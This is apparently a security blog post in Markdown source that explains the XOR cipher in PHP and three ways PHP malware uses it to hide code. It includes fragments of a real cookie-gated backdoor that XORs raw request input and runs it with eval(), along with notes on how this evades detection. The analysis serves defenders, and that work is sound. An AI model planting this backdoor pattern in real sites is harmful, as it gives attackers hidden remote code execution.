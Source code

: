 ```yaml
---
layout: post
title: "PHP Malware and XOR Encrypted Requests"
date: 2019-09-27 09:00:00 -0700
cover: /assets/images/php-xor/php-xor-cover.png
excerpt: An analysis of the methods that malicious users use to implement XOR encryption to try and hide the data in HTTP requests sent to PHP malware existing on a compromised website or webserver.
authors:
  - name: Luke Leal
    title: Security Engineer, Sucuri
    url: https://twitter.com/rootprivilege
    photo: https://avatars.githubusercontent.com/sucuri-luke
---
```


## About this post

As a security engineer at [Sucuri](https://sucuri.net) (Sucuri was acquired by GoDaddy in Spring 2017), we must use reverse engineering and analytical skills to determine if a suspected code sample is indeed malicious and then after confirmation we need to understand exactly how it is being used by the attacker. In this post we'll explain how the **XOR** operator works in PHP, the multiple ways that **XOR** can be used to hide malicious data, and how you can use the **XOR** operating principles to reverse engineer PHP malware that uses it to hide malicious code.

## How Does The XOR Cipher Operate?

We will mainly focus on the simple [XOR cipher](https://en.wikipedia.org/wiki/XOR_cipher), which itself is an application of the [exclusive disjunction (XOR)](https://en.wikipedia.org/wiki/Exclusive_or) logical operation.

Let’s examine how the **XOR** bitwise operator, ⨁, is used as a cipher additive for encryption/decryption:  

<table style="width: 50%; margin-left: auto; margin-right: auto;">
<tbody>
<tr>
<td style="width: 22.1191%;"><strong>A</strong><sub>plaintext</sub></td>
<td style="width: 17.881%;">⨁</td>
<td style="width: 17%;"><strong>B</strong><sub>key</sub></td>
<td style="width: 8%;">=</td>
<td style="width: 33%;"><strong>C</strong><sub>ciphertext</sub></td>
</tr>
</tbody>
</table>

It is **important** to mention that PHP uses the **^** caret symbol for the **XOR** operator as it does not allow for the ⨁ symbol to be used in its code.

[PHP’s manual](https://secure.php.net/manual/en/language.operators.bitwise.php) provides further information regarding how the XOR operation is performed at the bit level on the operand strings in the PHP code:


>
"If both operands for the [...] ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string."
>

PHP malware using **XOR** will often use two **operands**, which are defined variables containing strings (e.g **$a** and **$b**). The strings used by one of the operand variables are the **[plaintext](https://en.wikipedia.org/wiki/Plaintext)** (in this example it is the malicious code) that we wish to encrypt, and the other operand variable string is what is known as a **pre-shared key**. 

It’s also important to know that **XOR** operates as a **[symmetrical](https://en.wikipedia.org/wiki/Symmetric-key_algorithm)** form of encryption - which means that we can encrypt and decrypt using the same key. 

Let us break this down with a simple PHP example:

```
<?php
$a = "test" ; //our plaintext that we want encrypted
$b = "1234" ; //our key to use with plaintext to give us encrypted result
$c = $a ^ $b ; //our XOR bitwise encryption between $a and $b
echo $c ; //result = EW@@
?>
```


Remember that PHP’s **^** (**XOR**) bitwise operator converts each character to their corresponding ASCII value, which can be [checked with an ASCII table](https://simple.wikipedia.org/wiki/ASCII#/media/File:ASCII-Table-wide.svg). 

A visual table of the **XOR** symmetric encryption:

<table style="width: 65%; margin-left: auto; margin-right: auto;" border="1">
<thead>
<tr>
<th align="center"><strong>A</strong><sub>plaintext</sub></th>
<th align="center">⨁</th>
<th align="center"><strong>B</strong><sub>key</sub></th>
<th align="center">ASCII -> decimal</th>
<th align="center"><strong>A</strong><sub>dec value</sub></th>
<th align="center">⨁</th>
<th align="center"><strong>B</strong><sub>dec value</sub></th>
<th align="center"></th>
<th align="center"><strong>C</strong><sub>ciphertext</sub></th>
<th align="center"><strong>C</strong><sub>ASCII char</sub></th>
</tr>
</thead>
<tbody>
<tr>
<td align="center">t</td>
<td align="center">^</td>
<td align="center">1</td>
<td align="center">=</td>
<td align="center">116</td>
<td align="center">^</td>
<td align="center">49</td>
<td align="center">=</td>
<td align="center">69</td>
<td align="center">E</td>
</tr>
<tr>
<td align="center">e</td>
<td align="center">^</td>
<td align="center">2</td>
<td align="center">=</td>
<td align="center">101</td>
<td align="center">^</td>
<td align="center">50</td>
<td align="center">=</td>
<td align="center">87</td>
<td align="center">W</td>
</tr>
<tr>
<td align="center">s</td>
<td align="center">^</td>
<td align="center">3</td>
<td align="center">=</td>
<td align="center">115</td>
<td align="center">^</td>
<td align="center">51</td>
<td align="center">=</td>
<td align="center">64</td>
<td align="center">@</td>
</tr>
<tr>
<td align="center">t</td>
<td align="center">^</td>
<td align="center">4</td>
<td align="center">=</td>
<td align="center">116</td>
<td align="center">^</td>
<td align="center">52</td>
<td align="center">=</td>
<td align="center">64</td>
<td align="center">@</td>
</tr>
</tbody>
</table>
  

After undergoing **XOR** bitwise operation, we are left with the ASCII decimal values of **69 87 64 64** (or **EW@@** after we convert back to ASCII characters. The result is the [ciphertext](https://en.wikipedia.org/wiki/Ciphertext) (**C**), also known as the encrypted text. 

Remember, this is symmetrically encrypted — so the key (**B**) to decrypt it back into plaintext (**A**) is the same key that was used to encrypt it.

<h2>PHP Malware and XOR</h2>

In the case of PHP malware that utilizes XOR encryption for obfuscation, we primarily see it used in three methods:

<h3>The First Method</h3>

**Only the ciphertext (C) in the infected file is stored. The malicious user submits the key (B) in a HTTP request to the PHP file which then decrypts the ciphertext (C) to plain text (A). The now decrypted ciphertext (A) is legible code and can then be executed by PHP.**


<table style="width: 50%; margin-left: auto; margin-right: auto;">  
  <tr>
   <td align="center"><strong>C</strong> <sub>ciphertext in file</sub>
   </td>
   <td align="center">^
   </td>
   <td align="center"><strong>B</strong><sub>key sent by hacker</sub>
   </td>
   <td align="center">=
   </td>
   <td align="center"><strong>A</strong><sub>plaintext PHP code</sub>
   </td>
   </tr>
</table>


The plaintext (**A**) string is malicious code that attackers then encrypt on their end by using **XOR** with a key (**B**) string, The result ends up being the ciphertext (**C**), which is unreadable as PHP code. 

This ciphertext (**C**) is then added to a compromised websites’ file(s), along with some PHP code that uses some user-provided data (e.g via <code>$_POST</code>). This allows the hacker to send the value of the key and use the infected PHP file to decrypt the ciphertext (**C**) back to plaintext (**A**) (their malicious PHP code), then execute it using something like the <strong><code>eval()</code></strong> function.

Users that open the infected PHP file will only see the ciphertext (**C**); as they are missing the (**B**) key, they therefore cannot easily decrypt the encrypted content (**C**). This is what the hacker wants, as it keeps their malicious PHP code unreadable until they submit a request containing the necessary key (**B**) string.

One problem is that, depending on the amount of encrypted malicious PHP code, the ciphertext (**C**) in the infected file can be large and attract suspicion when viewed in a file editor.

<h3>The Second Method</h3>

**Only the key (B) in the infected file is stored. The hacker then provides the ciphertext (C) in their request and it is XOR’ed with the existing key value in the file to form our plaintext (A) — which is then executed.**


<table style="width: 50%; margin-left: auto; margin-right: auto;">  
<tr>
   <td align="center"><strong>C</strong><sub>ciphertext sent by hacker</sub>
   </td>
   <td align="center"><strong>^ </strong>
   </td>
   <td align="center"><strong>B</strong><sub>key in file code</sub>
   </td>
   <td align="center"><strong>=</strong>
   </td>
   <td align="center"><strong>A</strong><sub>plaintext PHP code</sub>
   </td>
</tr>
</table>



For this second method, let’s take a look at a recent backdoor that was found in a file named “**01f008ec.php**” within the root directory of an infected website.  

PHP file formatted and segmented for clarity:

```
$auth = "21a27be0cd332f0e8430e24da7158a96";
if (isset($_COOKIE[$auth]))
{
  $key = str_rot13($_COOKIE[$auth]);
```


The backdoor starts with a <strong><code>isset</code></strong> condition that must be satisfied in the request sent to the file — in this case, the <strong>[HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)</strong> containing the key value. This cookie value, which must match the hardcoded value of the defined <strong><code>$auth</code> </strong>variable,<strong> </strong> is then encoded using <strong><code>str_rot13</code></strong> and used to define the <strong><code>$key</code></strong> (**B**) variable.


```
  $res = "";
  foreach (str_split(@file_get_contents('php://input') , strlen($key)) as $part)
  {
      $res .= $part ^ $key;
  }
  eval($res);
```


Before the **XOR** operation, the file will use <strong><code>file_get_contents('php://input')</code></strong> to read raw data through **GET**/**POST** requests (XOR encoding may add special characters that can be broken if not transmitted raw) to the malicious file.  It’s then split into an array using <strong><code>str_split</code></strong> and defined with the variable <strong><code>$part</code></strong> within a <strong><code>foreach</code></strong> loop. 

We can see the malicious file’s code eventually evaluates code through a separate variable, <strong><code>eval($res)</code></strong> — this lets us know that the variable <strong><code>$res</code></strong> should contain the plaintext PHP code in order to be successfully executed. 


```
  {
      $res .= $part ^ $key;
  }
  eval($res);
```


This is a great example of the properties of symmetrical cryptography. The hacker uses the key (**B**) value to create the unreadable ciphertext (**C**) on their end, then the ciphertext (**C**) is submitted to the infected file via GET/POST request where it will be **XOR**’ed with the key (**B**) once more. The result is a plaintext (**A**) value that contains the malicious PHP code to be executed by the <strong><code>eval()</code></strong> function. 

It’s important to note that the plaintext (**A**) gets evaluated, so you won’t ever see it — nor the ciphertext (**C**) being sent to the infected file (unless you are logging HTTP requests or otherwise inspecting HTTP packets). 

One advantage with using this method is that even if HTTP requests are being inspected (e.g. by a firewall), website owners wouldn’t see the plaintext PHP, which can aid in evading detection. Another advantage is that the infection in the file can be much smaller (~235 characters on one line) than the previous method, which can have thousands of characters — this can also help prevent administrators from identifying malicious changes to files. 

<h3>The Third Method</h3>

The third method we see shares these same advantages, along with one more:

**The infected file does NOT contain any hardcoded ciphertext (C) or a key (B): Instead, the hacker provides the ciphertext and key as two strings in a crafted HTTP request to the infected file. These are then XOR'ed to produce the cleartext (A), which can then be executed.**

This third method doesn’t have the key value (**B**) hardcoded into the infected file’s coding like our previous example, therefore requiring interception of the HTTP request so that the key value (**B**) can be used to decrypt/encrypt the ciphertext (**C**).

<h2>Conclusion </h2>

In conclusion, **XOR** bitwise operations in PHP malware can help hackers evade certain security controls, but their symmetric cryptography means that anyone that knows the pre-shared secret key can decrypt/encrypt using it. 

Users who believe that their site may be infected with a PHP backdoor can refer to our [hacked website guides](https://sucuri.net/guides/) for cleanup instructions, or [reach out to our remediation team](https://sucuri.net/website-malware-removal/) for assistance — we’re always happy to lend a hand. 

If you would like to receive email notifications for technical website security posts, subscribe for our [blog feed](https://info.sucuri.net/subscribe-to-security).  